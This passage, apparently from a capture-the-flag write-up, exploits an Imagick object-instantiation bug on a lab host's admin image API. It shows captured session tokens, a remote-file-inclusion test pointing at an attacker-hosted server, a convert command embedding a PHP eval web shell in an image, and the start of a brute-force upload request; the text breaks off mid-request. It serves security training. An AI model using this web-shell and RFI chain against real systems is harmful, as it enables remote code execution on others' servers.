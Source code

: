 ```http
Referer: http://10.129.19.213/admin
Cookie: XSRF-TOKEN=eyJpdiI6IjloNURXNUpRQUNCb2tyUThhZDV1ZGc9PSIsInZhbHVlIjoiYUJZYVRmMVhHUEUwTS9FZk43eTF2TlpPY0tocEJnZlZnbFU2YnZCTDBNZlNqWmlYYmRvcjFPYWxiNEJkSXlLUjVkbEFWcHNuYnhOSFlsZExCTGw4eUhBUTJVR3RiVmxyQ2NDMGVzRDdXeVRzMmlOZmsxaXhVSnRSQXYyNWJhWEEiLCJtYWMiOiIzNjBlMTE1ZWExYjQwMzYwZGU2MDgyYWY2M2VhZDdmMzU3ZWEzOTNmMzcyNzVlMWJiNmEyMDYzY2UyMWI0ODg5IiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6Ik5LS0x5UjJucUJ3aTdLYVphdnFUQUE9PSIsInZhbHVlIjoiajhNNWNmVFRpUDZqMkROU3VVbUdGZUtLd3ZGeWVjcGxzcmNhUXlnOTlldnJVaUJuZDJYSE9wd1BNU0RmTS84T1pDdndpQ2lTZ3E3em1RZ2x3cFluRDRyWU51d0M4ZlB4Qk80VUFQV0N6Y2RyK3pQTVVha1hJZHg0cXFHMm10TDMiLCJtYWMiOiI4NTU1NmEzNDg2ZTYyNzBiODExNWRlMzA3Mjc5Zjk5YzAyODU0MmViZmMzNzdhNTA2YTEyOTE3Yjg3ZWZmMmIzIiwidGFnIjoiIn0%3D; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTI5LjE5LjIxMy9hcGkvdjIvYXV0aC9sb2dpbiIsImlhdCI6MTY4ODM5Mzg1MywiZXhwIjoxNjg4NDE1NDUzLCJuYmYiOjE2ODgzOTM4NTMsImp0aSI6IkFFcXROUHlMR25wNU1NZUMiLCJzdWIiOiIyIiwicHJ2IjoiMjNiZDVjODk0OWY2MDBhZGIzOWU3MDFjNDAwODcyZGI3YTU5NzZmNyJ9.3l-LRqW9Z1cf_Ewny0HOPdXtJhz-kk6cxKwje29dVUw



{"path":"/var/www/html/intentions/storage/app/public/animals/ashlee-w-wv36v9TGNBw-unsplash.jpg","effect":"wave"}
```
{% endcode %}

Googling for Imagick PHP exploits led me to this page showing an RCE:

{% embed url="https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/" %}

The above exploit uses an RFI to load some PHP objects for RCE. We can test this with the website:

```json
{"path":"http://10.10.14.64/hiiamrfi","effect":"wave"}
```

<figure><img src="../../.gitbook/assets/image (11) (1) (3).png" alt=""><figcaption></figcaption></figure>

Since this was vulnerable to RFI, there's a high chance that it is vulnerable to the exploit above. We can follow the PoC to make it work. Firstly, we need to create a reverse shell payload within an image.&#x20;

```
$ convert xc:red -set 'Copyright' '<?php @eval(@$_REQUEST["a"]); ?>' positive.png
```

Host this image on a HTTP server, and now comes the tricky part of uploading it (which involves some brute forcing). There seem to be 2 payloads involved in this:

* One involving `vid:ms1:/tmp/php*`.
* One with the form-data uploading `positive.png` to the server as `cmd.php`.&#x20;

To start this, we can follow the PoC and use Burp Intruder to do send a lot of requests. Here's the first request:

```http
POST /api/v2/admin/image/modify HTTP/1.1
Host: 10.129.19.213
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/json
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTI5LjE5LjIxMy9hcGkvdjIvYXV0aC9sb2dpbiIsImlhdCI6MTY4ODM5Mzc1NCwiZXhwIjoxNjg4NDE1MzU0LCJuYmYiOjE2ODgzOTM3NTQsImp0aSI6IjJFU1NGWHA5Sno4VVh1Y1EiLCJzdWIiOiIyIiwicHJ2IjoiMjNiZDVjODk0OWY2MDBhZGIzOWU3MDFjNDAwODcyZGI3YTU5NzZmNyJ9.TXkEvefZecbOrVTbd20__gfPgBcKwvyFO-bEcq5HCo4
Content-Length: 306
Connection: close

{
```